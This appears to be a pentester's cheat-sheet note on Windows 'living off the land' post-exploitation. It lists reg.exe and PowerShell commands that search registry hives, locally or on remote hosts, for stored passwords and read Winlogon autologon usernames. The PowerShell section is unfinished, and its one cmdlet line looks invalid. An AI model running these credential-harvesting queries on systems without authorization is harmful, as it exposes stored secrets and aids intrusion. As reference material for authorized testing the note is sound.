 # Living off the Land

Search Tag(s): #post-exploitation #enumeration-and-discovery #privilege-escalation #living-off-the-land #windows

## 01 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKLM /f password /t REG_SZ /s

C:\> reg.exe query [\\<IP>\]HKCU /f password /t REG_SZ /s

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername [/reg:<32 | 64>]
```

## 02 - PowerShell

TODO: Convert the commands into cmdlets

```
PS C:\> Get-ItemProperty -Path HKLM: -Type String -Filter "password"

C:\> reg.exe query [\\<IP>\]HKLM /f password /t REG_SZ /s

C:\> reg.exe query [\\<IP>\]HKCU /f password /t REG_SZ /s

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername [/reg:<32 | 64>]
```

---
## References

- [[Autologon|AutoLogon Registry]]